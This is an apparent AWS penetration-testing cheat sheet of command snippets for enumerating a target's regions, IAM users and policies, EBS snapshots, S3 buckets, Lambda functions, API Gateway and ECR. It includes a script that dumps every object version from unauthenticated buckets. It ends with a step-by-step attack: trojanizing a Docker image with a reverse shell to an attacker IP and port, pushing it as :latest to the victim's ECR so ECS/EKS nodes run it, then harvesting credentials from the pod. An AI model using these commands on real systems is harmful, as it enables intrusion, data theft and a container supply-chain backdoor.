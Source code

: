 ___
Map out accounts, services, regions, and resources that exist in the target AWS environment.
### Region Enumeration
---
**With Pacu**
```bash
>> run general__enum_regions
```
**AWS CLI**
```bash
aws ec2 describe-regions
```
### IAM Enumeration & Credential Reporting
---
Check password age, MFA enabled, access keys still active
```bash
aws iam generate-credential-report
aws iam get-credential-report
```
**List All Roles & Policies** (find which IAM roles/users you can assume or attach):
```bash
aws iam get-account-authorization-details \
  --output json \
  --query '{Roles:Roles, Users:UserDetailList}'

```
Check Attached Policies
```bash
aws iam list-user-policies --user-name <USERNAME>
aws iam list-attached-user-policies --user-name <USERNAME>
aws iam get-user-policy --user-name <USERNAME> --policy-name <POLICY_NAME>
```
### EC2 & EBS Enumeration
---
**List EC2 Instances**
```bash
aws ec2 describe-instances
```
**List EBS Volumes**
```bash
aws ec2 describe-volumes
```
**List EBS Snapshots (All & By Owner)**
```bash
# All snapshots in a region
aws ec2 describe-snapshots --region us-east-1

# Snapshots owned by a specific account
aws ec2 describe-snapshots --region us-east-1 --owner-ids <ACCOUNT_ID>

```
**Automate EC2 / EBS Enumeration with Pacu****
```bash
>> run ebs__enum_volumes_snapshots
```
### S3 Bucket Discovery & Interaction
---
**List All Buckets (If You Have Permissions)**
```bash
aws s3api list-buckets
```
**Automated Public Bucket Discovery** (no auth)
```bash
cloud_enum -k <keyword> -t 10 --disable-azure --disable-gcp
```
**FInd buckets with Google dorks**
```bash
site:.s3.amazonaws.com "<Target_Company>"
"Intitle:index.of.bucket" "<Target_Company>"
```
**List Objects in a Bucket**
```bash
aws s3 ls s3://<bucket-name>
```
**Sync Entire Bucket Locally**
```bash
aws s3 sync s3://<bucket-name> .
```
**If Blocked / Rate-Limited (Use s3api)**
```bash
aws s3api get-object --bucket "<bucket-name>" --key "<object-key>" "<local-output>"
```
**List Object Versions (When Versioning Is Enabled)**
```bash
aws s3api list-object-versions --bucket <bucket-name>
```
**Dump All Object Versions via Script**
```bash
# DumpObjectVersions.sh
read -p "Enter the S3 bucket name: " BUCKET_NAME
read -p "Enter the local dir path where data will be saved: " LOCAL
object_versions=$(aws s3api list-object-versions --bucket "$BUCKET_NAME" --no-sign-request | jq -c '.Versions[]')
while IFS= read -r object_version; do
    key=$(echo "$object_version" | jq -r '.Key')
    version_id=$(echo "$object_version" | jq -r '.VersionId')
    if [ -n "$key" ] && [ "$version_id" != "null" ]; then
        LOCAL_DIR="$LOCAL$key"
        mkdir -p "$(dirname "$LOCAL_DIR")"
        aws s3api get-object --bucket "$BUCKET_NAME" \
          --no-sign-request \
          --key "$key" \
          --version-id "$version_id" \
          "$LOCAL_DIR"
    fi
done <<< "$object_versions"
```
### Serverless & API Enumeration
---
**List All Lambda Functions**
```bash
aws lambda list-functions
```
**Get Detailed Info for a Lambda**
```bash
aws lambda get-function --function-name <function-name>
```
**Retrieve a Lambda’s Deployment Package (ZIP)**
copy the `"Location"` URL from `aws lambda get-function` output, download lambda:
```bash
curl "<Location_URL>" -o lambda.zip
```
**Discover API Gateway Endpoints**
```bash
aws apigateway get-rest-apis
```
From the returned ARN (`arn:aws:execute-api:<region>:<account>:<api-id>/*/*`), build the public invoke URL:
```bash
https://<api-id>.execute-api.<region>.amazonaws.com
```
###  Container Services Enumeration
---
**List ECR Repositories**
```bash
aws ecr describe-repositories
```
**List Images in a Specific Repository**
```bash
aws ecr describe-images --repository-name <repo-name>
```
#### Backdoor an Image with Dockerscan
install https://github.com/cr0hn/dockerscan
```bash
git clone https://github.com/cr0hn/dockerscan
cd dockerscan
sudo python3.6 setup.py install
```
Pull an existing image (Ubuntu as an example)
```bash
docker pull ubuntu:latest
docker save ubuntu:latest -o ubuntu_original
```
Trojanize it
```bash
dockerscan image modify trojanize ubuntu_original \
  -l <attacker_IP> -p <attacker_PORT> -o alpine_infected
```
Tag the infected image as :latest for ECR
```bash
docker tag alpine_infected:latest \
  <AWS_ACCOUNT_ID>.dkr.ecr.<region>.amazonaws.com/<REPO_NAME>:latest
```
Authenticate Docker to ECR
```bash
aws ecr get-login-password --region <region> | sudo docker login --username AWS --password-stdin <AWS_ACCOUNT_ID>.dkr.ecr.<region>.amazonaws.com
```
 Push the backdoored image
```bash
sudo docker push <AWS_ACCOUNT_ID>.dkr.ecr.<region>.amazonaws.com/<REPO_NAME>:latest
```
 Wait for any running ECS/EKS node to pull and run the new image
 **Once you have a shell in a compromised pod, look for creds in env vars**
 ```
 env
```
